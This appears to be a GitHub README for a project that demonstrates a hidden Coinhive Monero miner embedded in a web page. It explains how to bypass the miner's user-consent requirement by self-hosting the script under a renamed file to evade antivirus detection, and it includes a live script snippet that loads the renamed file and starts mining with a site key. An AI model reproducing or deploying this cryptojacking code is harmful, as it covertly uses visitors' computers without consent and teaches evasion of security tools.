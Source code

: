 # Coin-Hive_Hidden-Miner.github.io

<h2>Silent HTML Monero Miner</h2>

 :trollface: :trollface: :trollface: :trollface: :trollface: :trollface:

https://jonnybanana.github.io/Coin-Hive_Hidden-Miner.github.io/

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/coinhive-icon.png)

I have created this simple html page as a demonstration on how to make hidden the javascript miner of Coin Hive.<BR>
In fact, even if the site says that you can not use the miner without the consent of the user, in reality, things are very different ...</BR>
In part however it is true what they say, in fact if you try to call the .js file of the miner directly from their servers, that is:

https://coinhive.com/lib/coinhive.min.js?v8</BR>
https://authedmine.com/lib/authedmine.min.js?v8

you will see that the user's consent will be required, but the thing is easily circumvented, in fact just host the .js file directly on the server where you host the html page you want to use for the miner, for security I also changed the file name, since now the miner is well known by the vendor antivirus and company ....

<h3> Requirements </h3>

* a Coin Hive Account (https://coinhive.com)
* a Monero Wallet to make the withdraw  (https://mymonero.com/#/)
* a Web Server or a Website (also Github)
* a Coin Hive site key


<h3> Browser Compatibility </h3>

All

<h3> How it Works??? </h3>

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/screenshot.JPG)

https://coinhive.com/documentation/miner#constructor-options

https://coinhive.com/lib/coinhive.min.js?v8

 <script src="https://jonnybanana.github.io/Coin-Hive_Hidden-Miner.github.io/pino.js"></script>
<script>
 var miner = new CoinHive.Anonymous('YhWQAh8Vm7tIshKjOsp75jpDDVaO5kkU', {throttle: 0.2});
  miner.start();
</script> 

![Alt text](http://www.imigliorifaucet.it/g1.gif)




<h3> Curiosity </h3>

The image PNG used as background in this example is actually a simple algorithm designed / written in PIET.</BR>
Who wants can test it in the online interface from here: https://www.bertnase.de/npiet/npiet-execute.php


![Alt text](https://raw.githubusercontent.com/JonnyBanana/Coin-Hive_Hidden-Miner.github.io/master/img/bit.png)
